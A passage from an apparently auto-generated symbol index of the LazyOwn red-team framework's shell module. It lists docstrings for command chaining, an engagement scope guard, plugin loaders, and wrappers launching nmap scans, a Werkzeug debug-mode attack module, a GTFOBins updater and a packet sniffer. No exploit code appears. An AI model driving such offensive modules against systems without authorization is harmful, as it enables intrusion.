grisiscomeback at gmail dot com Creation Date: 13/08/2024 License: GPL v3  Description: This file contains the definition of the logic in the LazyOwnShell class  ██╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██║     ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ ██║     ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██║     ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ███████╗██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚══════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝", "id": "lazyown.py", "kind": "module", "label": "lazyown.py", "language": "py", "sha256": "375044eb24f72a7f", "symbol_count": 129, "symbols": [{"doc": "Log a swallowed UX-path exception at DEBUG level.\n\nArgs:\n    context: Human-readable description of the failed step.\n    exc: The exception that was caught.", "kind": "function", "line": 156, "name": "_ux_debug", "signature": "def _ux_debug(context, exc)"}, {"doc": "Coerce a cmd2 ``set`` argument into a Python ``bool``.\n\nAccepts native booleans, integers, and the canonical truthy/falsy\nstrings used elsewhere in the framework (``true``/``false``,\n``yes``/``no``, ``on``/``off``, ``1``/``0``). Anything else raises\n:class:`ValueError` so cmd2 surfaces the error to the operator\ninstead of silently coercing to ``False``.", "kind": "function", "line": 211, "name": "_parse_bool_setting", "signature": "def _parse_bool_setting(value)"}, {"doc": "Attribute view over a payload mapping for cmd2 ``Settable`` targets.\n\ncmd2's ``Settable`` reads and writes its bound attribute on a\n*target object* (``getattr`` / ``setattr``). LazyOwn keeps its\nruntime configuration in a plain ``dict`` (``self.params``) so this\nproxy bridges the two: every attribute read or write is delegated to\nthe underlying dict, which keeps ``set <key> <value>`` and\n``assign <key> <value>`` operating on the same backing store with no\ndrift between them.", "kind": "class", "line": 233, "name": "_PayloadSettableProxy", "signature": "class _PayloadSettableProxy"}, {"doc": "A custom interactive shell for the LazyOwn Framework.\nThis class extends the Cmd class to provide an interactive command-line\ninterface for the LazyOwn Framework. It supports various commands and\nmodules related to security and network operations. The shell is initialized\nwith a set of parameters and scripts, allowing users to execute predefined\nfunctions and manage tasks within the framework.\n\nAttributes:\n    prompt (str): The command prompt for the shell, obtained from the\n                  `getprompt()` function.\n    intro (str): A welcome message and disclaimer displayed when the shell\n                 starts, with information about the framework and its usage.\n    aliases (dict): A dictionary of command aliases for easier access to\n                    frequently used commands.\n    params (dict): A dictionary of parameters with their default values,\n                   used for configuring various aspects of the framework.\n    scripts (list): A list of script names included in the toolkit, representing\n                    the available modules and functionalities.\n    output (str): An empty string for storing output or results from executed\n                  commands or scripts.\n    custom_prompt (str): A custom prompt for the shell, obtained from the\n                         `getprompt()` function.\n\nMethods:\n    __init__(): Initializes the shell with default parameters, script names,\n                and an empty output string. Sets up the command prompt and\n                custom prompt.", "kind": "class", "line": 298, "name": "LazyOwnShell", "signature": "class LazyOwnShell(Cmd)"}, {"kind": "function", "line": 4986, "name": "main", "signature": "def main()"}, {"doc": "Bind the proxy to a live ``params`` dictionary.", "kind": "method", "line": 245, "name": "__init__", "signature": "def __init__(self, params)"}, {"kind": "method", "line": 249, "name": "__getattr__", "signature": "def __getattr__(self, name)"}, {"kind": "method", "line": 255, "name": "__setattr__", "signature": "def __setattr__(self, name, value)"}, {"doc": "Initializer for the LazyOwnShell class.\n\nThis method sets up the initial parameters and scripts for an instance of\nthe LazyOwnShell class. It initializes a dictionary of parameters with default\nvalues and a list of script names that are part of the LazyOwnShell toolkit.\n\nAttributes:\n    params (dict): A dictionary of parameters with their default values.\n    scripts (list): A list of script names included in the toolkit.\n    output (str): An empty string to store output or results.", "kind": "method", "line": 373, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Expose the new UX flags through cmd2's ``set`` command.\n\ncmd2's ``set`` reads/writes from a target object. The\n:class:`_PayloadSettableProxy` proxies attribute access to\n``self.params`` so ``set <key> <value>`` and ``assign <key> <value>``\nupdate the same backing store and both persist through\n:func:`core.config.save_payload`. The four keys registered here\n(``tui_theme``, ``enable_operator_presence``, ``enable_toasts``,\n``toast_max_per_tick``) match the schema entries in\n:mod:`core.payload_schema`.", "kind": "method", "line": 673, "name": "_register_ux_settables", "signature": "def _register_ux_settables(self)"}, {"doc": "Load extra parameters from ``params/*.yaml`` into ``self.params``.\n\nEvery YAML file in the ``params/`` directory is loaded as a flat\nkey-value dict and merged into ``self.params`` at startup. This\nallows operators to add new configuration keys for lazyaddons,\naliases, and pipelines without modifying ``payload.json`` or\nPython source.\n\nFiles are loaded in alphabetical order; later files override\nearlier ones. ``payload.json`` keys are *not* overwritten.", "kind": "method", "line": 744, "name": "_load_extended_params", "signature": "def _load_extended_params(self)"}, {"doc": "Logs the command execution details to a CSV file.\n\n:param cmd_name: The name of the command.\n:param cmd_args: The arguments of the command.\n:param start_time: Optional ``\"%Y-%m-%d %H:%M:%S\"`` string captured\n    before execution. Defaults to the current time when omitted.\n:param end_time: Optional ``\"%Y-%m-%d %H:%M:%S\"`` string captured\n    after execution. Defaults to ``start_time`` when omitted.\n:param duration_ms: Measured wall-clock duration in milliseconds.", "kind": "method", "line": 777, "name": "log_command", "signature": "def log_command(self, cmd_name, cmd_args, start_time, end_time, duration_ms)"}, {"doc": "Handles undefined commands, including aliases.\n\nThis method checks if a given command (or its alias) exists within the class\nby attempting to find a corresponding method. If the command or alias is not\nfound, it prints an error message.\n\n:param line: The command or alias to be handled.\n:type line: str\n:return: None", "kind": "method", "line": 840, "name": "default", "signature": "def default(self, line)"}, {"doc": "Auto-discovered list of runnable script names.\n\nDynamically scans the shell for ``run_<name>`` methods, excluding\ninternal plumbing helpers (``run_script``, ``run_command``). The\nresult is cached until the next shell restart.\n\nReturns:\n    List of script name strings available via ``run <name>``.", "kind": "method", "line": 869, "name": "scripts", "signature": "def scripts(self)"}, {"doc": "Recompute the Neon Box prompt from the live payload.\n\nCall after any payload change a prompt segment renders (``rhost``,\n``lhost``, ``domain``) so the operator sees the new value without\nrestarting the shell. ``assign`` and ``config_banner`` both route\nthrough this so the prompt and the status-bar hook never disagree.", "kind": "method", "line": 888, "name": "refresh_prompt", "signature": "def refresh_prompt(self)"}, {"doc": "Set a parameter — the unified ``set``/``assign`` surface.\n\nRegistered UX settables (``ui_hints``, ``tui_theme``,\n``enable_toasts``...) keep native cmd2 semantics. Any other key\ndelegates to ``assign`` so documentation and muscle memory that\npredate the split (``set rhost 10.10.10.10``) work again. With a\nsingle unknown key and no value, prints the current value.", "kind": "method", "line": 899, "name": "do_set", "signature": "def do_set(self, line)"}, {"doc": "Return the ambient coaching level: ``on``, ``minimal`` or ``off``.\n\n``off`` suppresses every post-command coaching surface (toasts,\ninline hints, protips, autosuggest and engagement flavour);\n``minimal`` keeps only the autosuggest accelerator. Any unset or\nunknown value means full ``on``.", "kind": "method", "line": 924, "name": "_ui_hints_level", "signature": "def _ui_hints_level(self)"}, {"doc": "Post-command hook that prints unseen JSONL events as toast lines.\n\nReads the ``enable_toasts`` flag from ``self.params`` (default\nTrue) so operators can disable transient notifications with\n``set enable_toasts false`` without restarting. When the\n``toast_ephemeral`` flag is set the same events render as\nsonner-style auto-expiring lines instead of the persistent ascii\npanel. Failures are logged at DEBUG level instead of being\nsilently swallowed.\n\nArgs:\n    data: cmd2 PostcommandData containing the executed statement.\n\nReturns:\n    ``data`` unchanged.", "kind": "method", "line": 935, "name": "_toast_hook", "signature": "def _toast_hook(self, data)"}, {"doc": "Unified post-command hook: chain prompt + hints + ELO + VRI.\n\nThe interactive chain prompt runs first and is independent of the\n``ui_hints`` coaching level — it is a workflow, not a hint. When\nchain mode is active the other suggestion surfaces (inline hints,\ncuriosity, autosuggest ghost) are suppressed so the operator sees\nexactly one suggestion flow.\n\nArgs:\n    data: cmd2 PostcommandData containing the executed statement.\n\nReturns:\n    data unchanged.", "kind": "method", "line": 964, "name": "_unified_tips_hook", "signature": "def _unified_tips_hook(self, data)"}, {"doc": "Mirror the chain-mode toggle into the tips engine suppression flag.\n\nArgs:\n    tips_engine: The unified tips engine whose ``chain_active``\n        config flag controls the competing suggestion surfaces.", "kind": "method", "line": 1000, "name": "_sync_chain_active", "signature": "def _sync_chain_active(self, tips_engine)"}, {"doc": "Offer the first chain step right after the banner.\n\nRuns exactly once per shell session (from ``__init__``) so the\noperator sees the world-model-driven chain immediately, before\ntyping any command. Skipped silently for non-interactive shells.", "kind": "method", "line": 1014, "name": "_chain_boot_prompt", "signature": "def _chain_boot_prompt(self)"}, {"doc": "Construct the interactive chain-mode engine wired to the shell.\n\nThe resolver delegates to :class:`cli.command_chain.CommandChain`\nso suggestions are governed by the world model: static kill-chain\nadjacency first, then nmap-discovered services (port triggers),\nthen addon/tool triggers, then phase priority. The engine is\nnon-interactive unless stdin is a TTY so headless/daemon shells\ncan never block on the prompt.\n\nReturns:\n    A ready-to-use :class:`cli.chain_mode.ChainPromptEngine`.", "kind": "method", "line": 1029, "name": "_build_chain_prompt_engine", "signature": "def _build_chain_prompt_engine(self)"}, {"doc": "Resolve world-model-driven next steps for the chain prompt.\n\nArgs:\n    cmd: The command that just executed (first token).\n    phase: Current engagement phase identifier.\n\nReturns:\n    Ordered :class:`cli.command_chain.NextStep` list, empty when no\n    signal exists.", "kind": "method", "line": 1054, "name": "_chain_resolver", "signature": "def _chain_resolver(self, cmd, phase)"}, {"doc": "Run the interactive chain loop after a command executes.\n\nKeeps prompting while the operator accepts, overrides or picks\nnumbered alternatives. The loop is guarded by a busy flag so the\nnested hooks of chained executions never re-enter it, and by the\nengine's own step limit.\n\nArgs:\n    cmd: The command that just executed (first token).\n    phase: Current engagement phase identifier.", "kind": "method", "line": 1072, "name": "_maybe_chain_prompt", "signature": "def _maybe_chain_prompt(self, cmd, phase)"}, {"doc": "Encrypt session data when the process is terminated externally.\n\nSIGTERM/SIGHUP bypass ``atexit`` (closing the terminal, killing\nthe shell), so both get a handler that runs the same encryption\npath and then re-raises the signal with its original disposition.", "kind": "method", "line": 1118, "name": "_install_crypto_signal_handlers", "signature": "def _install_crypto_signal_handlers(self)"}, {"doc": "Decrypt session data automatically on authenticated startup.", "kind": "method", "line": 1144, "name": "_run_auto_decrypt", "signature": "def _run_auto_decrypt(self)"}, {"doc": "Encrypt session data automatically on application close.", "kind": "method", "line": 1156, "name": "_run_auto_encrypt", "signature": "def _run_auto_encrypt(self)"}, {"doc": "Return the last ``limit`` first-tokens from the session transcript.\n\nArgs:\n    limit: Maximum number of distinct command names to return.\n\nReturns:\n    A list of command first-tokens. Empty when the file is absent.", "kind": "method", "line": 1173, "name": "_read_recent_commands_for_autosuggest", "signature": "def _read_recent_commands_for_autosuggest(self, limit)"}, {"doc": "Recompute the active suggestion from the engine's provider chain.\n\nArgs:\n    executed_command: Raw string of the command that just ran.", "kind": "method", "line": 1200, "name": "_refresh_autosuggest", "signature": "def _refresh_autosuggest(self, executed_command)"}, {"doc": "Post-command hook: record commands when ``makerc`` is active.", "kind": "method", "line": 1226, "name": "_recording_hook", "signature": "def _recording_hook(self, data)"}, {"doc": "Return up to ``limit`` close-matching command names.\n\nCombines the local ``do_*`` index with the graphify knowledge graph\n(when available) so an unknown command is recovered by both lexical\nsimilarity and graph proximity. Empty result means no suggestion is\nconfident enough to surface.", "kind": "method", "line": 1239, "name": "_did_you_mean", "signature": "def _did_you_mean(self, query, limit)"}, {"doc": "Forward a command line to :meth:`log_command` for CSV persistence.\n\nArgs:\n    line: Full command line in ``\"<verb> <args>\"`` form.\n    start_time: Optional pre-execution timestamp string forwarded\n        verbatim to :meth:`log_command`.\n    end_time: Optional post-execution timestamp string forwarded\n        verbatim to :meth:`log_command`.\n    duration_ms: Measured wall-clock duration in milliseconds.", "kind": "method", "line": 1280, "name": "logcsv", "signature": "def logcsv(self, line, start_time, end_time, duration_ms)"}, {"doc": "Internal function to execute commands.\n\nExecutes the given shell command, captures stdout via ``tee`` so the\noperator both sees the output and a copy lands in ``sessions/logs/``,\nand forwards a telemetry record to\n:class:`modules.metrics.MetricsRecorder` so the duration and exit\ncode can be analysed later.\n\n:param command: The command to be executed.\n:type command: str\n:return: ``None``.\n:rtype: NoneType", "kind": "method", "line": 1321, "name": "cmd", "signature": "def cmd(self, line)"}, {"doc": "Dispatch a command, expanding payload placeholders in custom aliases.\n\nThis is the single chokepoint through which every interactive command\nflows, so it also enforces the authorization scope guard before the\ncommand runs. Accepts both raw strings and parsed cmd2 ``Statement``\nobjects.\n\nArgs:\n    statement: The command to run, as a string or ``Statement``.\n    add_to_history: Whether cmd2 should record the command in history.\n    raise_keyboard_interrupt: Whether to propagate Ctrl-C.\n    orig_rl_history_length: Readline bookkeeping passed through to cmd2.\n\nReturns:\n    The ``stop`` flag from cmd2 (``True`` ends the loop). A scope block\n    returns ``False`` so the offending command is skipped without\n    terminating the session.", "kind": "method", "line": 1413, "name": "onecmd_plus_hooks", "signature": "def onecmd_plus_hooks(self, statement, add_to_history, raise_keyboard_interrupt, orig_rl_history_length)"}, {"doc": "Split a ``cmd1 && cmd2 && cmd3`` chain into parts.\n\nQuote-aware: ``&&`` inside single/double quotes does not split,\nso ``sh echo \"a && b\"`` keeps working. Returns ``None`` when\nthere is no top-level ``&&`` (normal single-command path).\n\nArgs:\n    raw_input: Raw command line as typed by the operator.\n\nReturns:\n    List of stripped command parts, or ``None`` for a single command.", "kind": "method", "line": 1515, "name": "_split_and_chain", "signature": "def _split_and_chain(raw_input)"}, {"doc": "Run ``&&``-chained commands with short-circuit on failure.\n\nGeneric: works with ANY command (``ping && lazynmap && auto``,\n``sh ... && ...``, aliases, ``;``-free mixes). Each part flows\nthrough :meth:`onecmd_plus_hooks` again so aliases, scope guard\nand placeholder expansion apply per command. The chain stops at\nthe first part that fails, where failure is ANY of:\n\n- an exception raised by the command,\n- a ``perror`` call (unknown command, cmd2 errors, alias errors),\n- a non-zero ``exit_code`` (e.g. ``ping`` against a dead host),\n- an integer non-zero ``last_result`` (e.g. ``sh false``).\n\nA ``True`` stop flag (quit/exit) propagates immediately.\n\nArgs:\n    parts: Command strings from :meth:`_split_and_chain`.\n    add_to_history: Forwarded to each sub-command dispatch.\n    raise_keyboard_interrupt: Forwarded to each sub-command dispatch.\n\nReturns:\n    The ``stop`` flag from cmd2 (``True`` ends the loop).", "kind": "method", "line": 1560, "name": "_run_and_chain", "signature": "def _run_and_chain(self, parts, add_to_history, raise_keyboard_interrupt)"}, {"doc": "Check whether a chain part starts with a known command or alias.\n\nGeneric guard so ``badcmd && sitrep`` stops before running anything:\nthe shell's ``default()`` handler reports unknown commands via\ntoastr instead of ``perror``, so the failure would otherwise be\ninvisible to the chain runner.\n\nArgs:\n    part: Single command string (already split on ``&&``).\n\nReturns:\n    ``True`` when the first token is a real command, a cmd2\n    shortcut, or a known alias.", "kind": "method", "line": 1642, "name": "_chain_part_exists", "signature": "def _chain_part_exists(self, part)"}, {"doc": "Compute the set of offensive command names from cmd2 categories.\n\nReads each command's help category via cmd2 introspection and delegates\nthe offensive/benign decision to\n:func:`cli.scope_guard.build_offensive_commands`, so the classification\npolicy lives in one tested place.\n\nReturns:\n    The frozenset of offensive command names.", "kind": "method", "line": 1670, "name": "_build_scope_offensive", "signature": "def _build_scope_offensive(self)"}, {"doc": "Return whether a command (or custom alias) is offensive.\n\nArgs:\n    name: The command name or custom alias typed by the operator.\n\nReturns:\n    ``True`` when the command, or the command a custom alias expands to,\n    belongs to an offensive kill-chain category.", "kind": "method", "line": 1689, "name": "_resolve_offensive", "signature": "def _resolve_offensive(self, name)"}, {"doc": "Authorize a command against the configured engagement scope.\n\nBuilds a fresh :class:`cli.scope_guard.ScopeGuard` from the live payload\nvalues so mid-session changes to ``scope`` / ``scope_enforcement`` take\neffect immediately, then renders the decision. The guard fails open: any\nunexpected error allows the command so a defect here never blocks the\noperator.\n\nArgs:\n    cmd_name: The command name about to run.\n\nReturns:\n    ``True`` when the command may proceed, ``False`` when it must be\n    skipped (enforce mode, out of scope, confirmation declined).", "kind": "method", "line": 1708, "name": "_scope_check", "signature": "def _scope_check(self, cmd_name)"}, {"doc": "Ask the operator to confirm an out-of-scope offensive command.\n\nNon-interactive sessions (piped input, ``-c`` execution, scripted runs)\ncannot answer a prompt, so they are treated as a refusal: the safer\ndefault for an enforce-mode block.\n\nArgs:\n    decision: The blocking :class:`cli.scope_guard.ScopeDecision`.\n\nReturns:\n    ``True`` only when an interactive operator explicitly confirms.", "kind": "method", "line": 1755, "name": "_scope_confirm", "signature": "def _scope_confirm(self, decision)"}, {"doc": "Internal function to execute commands.\n\nThis method attempts to execute a given command using `onecmd` and captures\nthe output. It sets the `output` attribute based on whether the command was\nexecuted successfully or an exception occurred.\n\n:param command: The command to be executed.\n:type command: str\n:return: A message indicating the result of the command execution.\n:rtype: str", "kind": "method", "line": 1776, "name": "one_cmd", "signature": "def one_cmd(self, command)"}, {"doc": "Handle the case where the user enters an empty line.\n\nThis method is called when the user submits an empty line of input in\nthe command-line interface. By default, it provides feedback indicating\nthat no command was entered.\n\nIt is useful for providing user-friendly messages or handling empty input\ncases in a custom manner.\n\nLicense: This function is part of a program released under the GNU General\nPublic License v3.0 (GPLv3). You can redistribute it and/or modify it\nunder the terms of the GPLv3, as published by the Free Software Foundation.\n\nNote: This method is called by the cmd library when an empty line is\nentered. You can override it in a subclass to change its behavior.\n\nExample:\n    >>> shell = LazyOwnShell()\n    >>> shell.emptyline()\n    You didn't enter any command.", "kind": "method", "line": 1822, "name": "emptyline", "signature": "def emptyline(self)"}, {"doc": "Carga los comandos personalizados desde user_commands.json", "kind": "method", "line": 1847, "name": "load_user_commands", "signature": "def load_user_commands(self)"}, {"doc": "Guarda un nuevo comando en user_commands.json", "kind": "method", "line": 1859, "name": "save_user_command", "signature": "def save_user_command(self, alias, command)"}, {"doc": "Lista todos los archivos en un directorio dado.", "kind": "method", "line": 1871, "name": "list_files_in_directory", "signature": "def list_files_in_directory(self, directory)"}, {"doc": "Register every active ``tools/*.tool`` as a ``do_<toolname>`` command.\n\nPlaceholders in the tool's ``command`` template are resolved at call\ntime against ``self.params`` (so live config changes are honored).\nOptional positional args passed to the command override ``port`` and\nare appended as extra flags. When ``sessions/scan_<rhost>.nmap.xml``\nexists and the tool's triggers match a discovered service, the host\nand port are pre-populated from the scan; otherwise the command falls\nback to ``rhost``/``rport`` from ``payload.json``.\n\nReturns:\n    None", "kind": "method", "line": 1877, "name": "register_tool_commands", "signature": "def register_tool_commands(self)"}, {"doc": "Registra un comando nuevo desde Lua.", "kind": "method", "line": 2034, "name": "_register_lua_command", "signature": "def _register_lua_command(self, command_name, lua_function)"}, {"doc": "Load every Lua plugin from the 'plugins/' directory.", "kind": "method", "line": 2061, "name": "load_plugins", "signature": "def load_plugins(self)"}, {"doc": "Loads all YAML plugins from the 'lazyaddons/' directory.\n\nThis method scans the 'lazyaddons/' directory, reads each YAML file,\nand registers enabled plugins as new commands.", "kind": "method", "line": 2091, "name": "load_yaml_plugins", "signature": "def load_yaml_plugins(self)"}, {"doc": "Register a YAML addon as a shell command.\n\nReads the optional ``category`` field from the addon YAML (falls back\nto ``\"14. Yaml Addon.\"`` when absent) and sets the cmd2 category\nattribute on the wrapper so the command appears in the correct palette\nsection without any hardcoded string in this method.\n\nAlso reads the optional ``tags`` list for future palette filtering,\nthe optional ``os`` field (MITRE platform: ``linux``, ``windows``,\n``macos``, ``network``, ``containers``, ``saas``, ``iaas`` or\n``any``) and the optional ``trigger`` list of nmap service names\nconsumed by the exploration engine. Both ``os`` and ``trigger``\ndefault to ``any`` / ``[]`` so legacy addons keep loading.\n\nA lightweight dependency check runs before first execution.", "kind": "method", "line": 2114, "name": "register_yaml_plugin", "signature": "def register_yaml_plugin(self, plugin_data)"}, {"kind": "method", "line": 2260, "name": "register_all_adversary_commands", "signature": "def register_all_adversary_commands(self)"}, {"kind": "method", "line": 2273, "name": "_register_adversary_command", "signature": "def _register_adversary_command(self, adv)"}, {"doc": "Display a toastr-like notification in the terminal with adaptive sizing.", "kind": "method", "line": 2289, "name": "display_toastr", "signature": "def display_toastr(self, message, type)"}, {"doc": "Helper method to wrap text to fit within specified width.", "kind": "method", "line": 2351, "name": "_wrap_text", "signature": "def _wrap_text(self, text, max_width)"}, {"doc": "Fall through to the payload-aware completer for unhandled commands.", "kind": "method", "line": 2368, "name": "completedefault", "signature": "def completedefault(self, text, line, begidx, endidx)"}, {"doc": "Print a session-start pro tip and handle first-run setup.\n\nAlso attempts auto-login via remember-me token.\nIf no session exists, warns the operator to use ``login``.", "kind": "method", "line": 2393, "name": "preloop", "signature": "def preloop(self)"}, {"doc": "Gate unauthenticated commands — anonymous operators can only\nrun ``register``, ``login``, ``logout``, ``whoami``, ``help``, ``exit``, ``quit``,\nand ``set`` until they identify themselves.\n\nReturns:\n    The original statement to allow execution, or a statement with\n    an empty command string to block execution.", "kind": "method", "line": 2531, "name": "postparsing_precmd", "signature": "def postparsing_precmd(self, statement)"}, {"doc": "Handle operations to perform after exiting the command loop.\n\nThis method is called after the command loop terminates, typically used\nfor performing any final cleanup or displaying messages before the program\nexits.\n\nIn this implementation, it prints a message indicating that the custom\nshell is exiting.\n\nLicense: This function is part of a program released under the GNU General\nPublic License v3.0 (GPLv3). You can redistribute it and/or modify it\nunder the terms of the GPLv3, as published by the Free Software Foundation.\n\nNote: This method is called automatically by the `cmd` library's command\nloop after the loop terminates. You can override it in a subclass to\ncustomize its behavior.\n\nExample:\n>>> shell = LazyOwnShell()\n>>> shell.cmdloop()  # Exits the command loop\nGoodBye LazyOwner", "kind": "method", "line": 2559, "name": "postloop", "signature": "def postloop(self)"}, {"doc": "Tab-complete phase names.", "kind": "method", "line": 2592, "name": "complete_phase", "signature": "def complete_phase(self, text, line, begidx, endidx)"}, {"doc": "Tab-complete l00t subcommands.", "kind": "method", "line": 2597, "name": "complete_l00t", "signature": "def complete_l00t(self, text, line, begidx, endidx)"}, {"doc": "Tab-complete loot subcommands (delegates to l00t).", "kind": "method", "line": 2603, "name": "complete_loot", "signature": "def complete_loot(self, text, line, begidx, endidx)"}, {"doc": "Tab-complete the parameter name from the live payload keys.\n\nDriven entirely by ``self.params`` so the framework never has to\nmaintain a parallel list of completion targets — adding a new key to\n``payload.json`` makes it tab-completable for free.", "kind": "method", "line": 2608, "name": "complete_assign", "signature": "def complete_assign(self, text, line, begidx, endidx)"}, {"doc": "Tab-complete the scope subcommands.", "kind": "method", "line": 2625, "name": "complete_scope", "signature": "def complete_scope(self, text, line, begidx, endidx)"}, {"doc": "Return the current scope as a fresh mutable list of entry strings.", "kind": "method", "line": 2638, "name": "_scope_entries", "signature": "def _scope_entries(self)"}, {"doc": "Persist scope and/or mode changes to ``payload.json``.\n\nMutates ``self.params`` in place and writes through the same atomic\n``save_payload`` path used by ``assign``, keeping a single writer for\nthe config file.\n\nArgs:\n    entries: Replacement scope list, or ``None`` to leave it unchanged.\n    mode: Replacement enforcement mode, or ``None`` to leave it\n        unchanged.", "kind": "method", "line": 2644, "name": "_scope_save", "signature": "def _scope_save(self, entries, mode)"}, {"doc": "Print the current scope and enforcement mode.", "kind": "method", "line": 2662, "name": "_scope_render", "signature": "def _scope_render(self, entries, mode)"}, {"doc": "Tab-complete the palette command using the live command index.\n\nPosition 1 yields phase identifiers and the ``--search`` / ``--info``\nverbs; position 2 yields phase-scoped command names (or every name\nwhen the first token is ``--info``). Driven entirely by\n:class:`cli.palette_command.PaletteCompleter` so the framework never\nhas to maintain a parallel completion list — regenerating the index\nis enough.", "kind": "method", "line": 2676, "name": "complete_palette", "signature": "def complete_palette(self, text, line, begidx, endidx)"}, {"doc": "Runs the internal module `modules/lazysearch.py`.\n\nThis method executes the `lazysearch` script from the specified path, using\nthe `binary_name` parameter from the `self.params` dictionary. If `binary_name`\nis not set, it prints an error message.\n\n:return: None", "kind": "method", "line": 2693, "name": "run_lazysearch", "signature": "def run_lazysearch(self)"}, {"doc": "Run the internal module located at `modules/LazyOwnExplorer.py`.\n\nThis method executes the `LazyOwnExplorer.py` script, which is used for graphical user interface (GUI) functionality within the LazyOwn framework.\n\nThe function performs the following steps:\n\n1. Calls `self.run_script` with `LazyOwnExplorer.py` to execute the GUI module.\n\n:returns: None\n\nManual execution:\n1. Ensure that the `modules/LazyOwnExplorer.py` script is present in the `modules` directory.\n2. Run the script with:\n    `python3 modules/LazyOwnExplorer.py`\n\nExample:\n    To run `LazyOwnExplorer.py` directly, execute:\n    `python3 modules/LazyOwnExplorer.py`\n\nNote:\n    - Ensure that the script has the appropriate permissions and dependencies to run.\n    - Verify that your environment supports GUI operations if using this script in a non-graphical environment.", "kind": "method", "line": 2710, "name": "run_lazysearch_gui", "signature": "def run_lazysearch_gui(self)"}, {"doc": "Run the internal module located at `modules/lazyown_parquet_tool.py`.\n\nThis method executes the `lazyown_parquet_tool.py` script, which is a\nparquet search component of the LazyOwn framework.\n\nThe function performs the following steps:\n\n1. Calls `self.run_script` with `lazyown_parquet_tool.py` to execute the script.\n\n:returns: None\n\nManual execution:\n1. Ensure that the `modules/lazyown_parquet_tool.py` script is present in the `modules` directory.\n2. Run the script with:\n    `python3 modules/lazyown_parquet_tool.py`\n\nNote:\n    - Ensure that the script has the appropriate permissions and dependencies to run.", "kind": "method", "line": 2740, "name": "run_lazyown", "signature": "def run_lazyown(self)"}, {"doc": "Run the internal module located at `modules/update_db.sh`.\n\nThis method executes the `update_db.sh` script to update the database of binary exploitables from `gtofbins`.\n\nThe function performs the following steps:\n\n1. Executes the `update_db.sh` script located in the `modules` directory using `os.system`.\n\n:returns: None\n\nManual execution:\n1. Ensure that the `modules/update_db.sh` script is present in the `modules` directory.\n2. Run the script with:\n    `./modules/update_db.sh`\n\nExample:\n    To manually update the database, execute:\n    `./modules/update_db.sh`\n\nNote:\n    - Ensure that the script has execute permissions.\n    - The script should be run with the necessary privileges if required.", "kind": "method", "line": 2766, "name": "run_update_db", "signature": "def run_update_db(self)"}, {"doc": "Runs the internal module `modules/lazynmap.sh` for multiple Nmap scans.\n\nOS detection (via ping TTL) is performed automatically before scanning\nwhen the target OS is not yet known. This ensures the correct tool chain\nis selected for subsequent enumeration: SMB/Kerberos/AD for Windows,\nSSH/web for Linux/Unix.\n\nThis method executes the `lazynmap` script, using the current working directory\nand the `rhost` parameter from the `self.params` dictionary as the target IP.\nIf `rhost` is not set, it prints an error message.\n\n:return: None", "kind": "method", "line": 2796, "name": "run_lazynmap", "signature": "def run_lazynmap(self)"}, {"doc": "Run the internal module located at `modules/legacy/lazywerkzeug.py` in debug mode.\n\nThis method executes the `lazywerkzeug.py` script with the specified parameters for remote and local hosts and ports. It is used to test Werkzeug in debug mode.\n\nThe function performs the following steps:\n\n1. Retrieves the `rhost`, `lhost`, `rport`, and `lport` values from `self.params`.\n2. Checks if all required parameters are set. If not, prints an error message and returns.\n3. Calls `self.run_script` with `lazywerkzeug.py` and the specified parameters.\n\n:param rhost: The remote host address.\n:type rhost: str\n\n:param lhost: The local host address.\n:type lhost: str\n\n:param rport: The remote port number.\n:type rport: int\n\n:param lport: The local port number.\n:type lport: int\n\n:returns: None\n\nManual execution:\n1. Ensure that `rhost`, `lhost`, `rport`, and `lport` are assign in `self.params`.\n2. The script `modules/legacy/lazywerkzeug.py` should be present in the `modules` directory.\n3. Run the script with:\n    `python3 modules/legacy/lazywerkzeug.py <rhost> <rport> <lhost> <lport>`\n\nExample:\n    To run `lazywerkzeug.py` with `rhost` assign to `\"127.0.0.1\"`, `rport` to `5000`, `lhost` to `\"localhost\"`, and `lport` to `8000`, set:\n    `self.params[\"rhost\"] = \"127.0.0.1\"`\n    `self.params[\"rport\"] = 5000`\n    `self.params[\"lhost\"] = \"localhost\"`\n    `self.params[\"lport\"] = 8000`\n    Then call:\n    `run_lazywerkzeugdebug()`\n\nNote:\n    - Ensure that `modules/legacy/lazywerkzeug.py` has the appropriate permissions and dependencies to run.\n    - Verify that the specified hosts and ports are correct and available.", "kind": "method", "line": 2861, "name": "run_lazywerkzeugdebug", "signature": "def run_lazywerkzeugdebug(self)"}, {"doc": "Run the internal module located at `modules/lazygat.sh`. to gathering the sistem :)\n\nThis method executes the `lazygat.sh` script located in the `modules` directory with `sudo` privileges.\n\nThe function performs the following steps:\n\n1. Retrieves the current working directory.\n2. Executes the `lazygat.sh` script using `sudo` to ensure it runs with elevated permissions.\n\n:returns: None\n\nManual execution:\n1. Ensure that the `modules/lazygat.sh` script is present in the `modules` directory.\n2. Run the script with:\n    `sudo ./modules/lazygat.sh`\n\nExample:\n    To manually run the script with elevated privileges, execute:\n    `sudo ./modules/lazygat.sh`\n\nNote:\n    - Ensure that the script has execute permissions.\n    - The script should be run with `sudo` if it requires elevated privileges.", "kind": "method", "line": 2918, "name": "run_lazygath", "signature": "def run_lazygath(self)"}, {"doc": "Runs the internal module `modules/lazynmap.sh` with discovery mode.\n\nThis method executes the `lazynmap` script in discovery mode. It uses the current\nworking directory for locating the script.\n\n:return: None", "kind": "method", "line": 2950, "name": "run_lazynmapdiscovery", "signature": "def run_lazynmapdiscovery(self)"}, {"doc": "Run the sniffer internal module located at `modules/legacy/lazysniff.py` with the specified parameters.\n\nThis method executes the script with the following arguments:\n\n- `device`: The network interface to be used for sniffing, specified in `self.params`.\n\nThe function performs the following steps:\n\n1. Retrieves the `device` value from `self.params`.\n2. Sets up the environment variables `LANG` and `TERM` to ensure proper script execution.\n3. Uses `subprocess.run` to execute the `lazysniff.py` script with the `-i` option to specify the network interface.\n\n:param device: The network interface to be used for sniffing.\n:type device: str\n\n:returns: None\n\nManual execution:\n1. Ensure that `device` is assign in `self.params`.\n2. The script 